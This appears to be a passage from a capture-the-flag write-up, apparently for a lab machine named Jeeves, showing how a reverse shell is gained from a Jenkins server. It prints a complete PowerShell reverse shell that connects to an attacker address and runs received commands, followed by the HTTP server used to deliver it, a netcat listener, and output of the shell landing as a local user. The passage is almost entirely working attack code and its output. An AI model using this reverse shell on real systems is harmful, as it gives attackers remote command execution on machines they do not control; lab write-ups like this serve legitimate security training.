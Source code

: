 - Reverse Shell
![](/img2/Pasted%20image%2020250606104016.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.7",9000);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
 $sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
 $stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush()
}
$client.Close()
```

```bash
❯ python3 -m http.server 80
```

```ruby
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [06/Jun/2025 10:37:26] "GET /shell.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 9000
```

```ruby
listening on [any] 9000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.63] 49679
whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins> 
```
